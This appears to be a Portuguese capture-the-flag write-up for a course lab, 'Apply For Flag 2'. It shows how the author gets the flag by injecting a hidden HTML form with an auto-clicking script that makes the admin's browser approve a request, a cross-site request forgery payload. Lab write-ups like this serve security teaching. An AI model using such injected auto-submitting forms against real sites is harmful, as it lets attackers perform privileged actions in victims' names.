





# Apply For Flag 2 - CTF Extra

Ao entrar no site verificamos que é semelhante ao site do CTF da semana 10 'Apply for flag', exceto desta vez o *request* tem um id especifico:



Verificamos na página do admin que a porta da página muda de 5004 para 5005 e o form do *request* tem esta estrutura:

```html
<form method="POST" action="/request/<request_id>/approve" role="form">
    <div class="submit"> 
        <input type="submit" id="giveflag" value="Give the flag" disabled="">   
    </div>
</form>
```

`request_id` é aquele apresentado na página inicial. Com isto em conta, construimos um novo form para aceitar o pedido:

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/<request_id>/approve" role="form" hidden>
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
    <script>
        document.getElementById('giveflag').click();
    </script>
</form>
```

Inserindo só isto, verifica-se que é feito um redirecionamento para o url da ação da form e não temos permissão para isto. 



Assim, devemos impedir o redirecionamento do nosso lado, mas que este seja feito do lado do admin de qualquer maneira, já que o admin tem permissão. Para isto, desabilitamos o javascript da página no nosso browser:



Fazendo de novo, verificamos que ja é feito o redirecionamento para a página certa, mas o request ainda não foi avaliado.



Isto acontece porque, ao desativar o javascript foi desativado o script que faz reload a página, pelo que é necessário fazer reload manualmente: 



Como é possivel observar, obtemos a flag.